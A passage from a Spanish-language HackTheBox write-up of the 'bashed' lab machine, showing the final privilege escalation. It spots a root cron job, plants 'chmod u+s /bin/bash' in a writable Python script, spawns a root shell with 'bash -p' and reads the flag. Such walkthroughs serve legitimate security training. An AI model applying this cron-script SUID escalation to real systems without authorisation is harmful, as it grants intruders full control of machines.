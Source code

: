 Damos permisos de ejecución a nuestro archivo y procedemos a ver en el output que se está ejecutando `test-py` periódicamente.

```bash
chmod +x procmon.sh

> /usr/sbin/CRON -f
> /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
> python test.py
< /usr/sbin/CRON -f
< /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
< python test.py
```

Muy bien, ahora que identificamos que el archivo `test.py` se está ejecutando y tenemos capacidad de escritura en el mismo, manipularemos el código para generar un permiso SUID en `/bin/bash`.

```bash
nano test.py

import os
os.system("chmod u+s /bin/bash")
```

Procedemos a monitorear el comando `ls -la /bin/bash` para detectar el momento en que tenga permisos como SUID.

```bash
watch -n 1 ls -la /bin/bash
-rwsr-xr-x 1 root root 1037528 Jun 24  2016 /bin/bash
```

¡Ya estamos terminando! Ahora vamos a ejecutar el comando `bash -p` que nos va a dar automáticamente una shell con permisos de `root`, esto gracias a la asignación de permisos _SUID_.

```bash
scriptmanager@bashed:/scripts$ bash -p
bash-4.3# whoami
root
```

¡Logramos tener acceso como root! No queda nada más, vamos a acceder a la carpeta que contiene la flag y eso es todo.

```bash
bash-4.3# find / -name root.txt 2>/dev/null
/root/root.txt
bash-4.3# head -c 10 /root/root.txt; echo
e2e427545
```

¡Hemos logrado completar la máquina `bashed` de HackTheBox!

<p style="text-align: center;">
<img src="/assets/images/bashed/07-finish.png">
</p>

_¡Que tengan un buen día en el planeta donde se encuentren!_

**Nos vemos en otro bit.**.
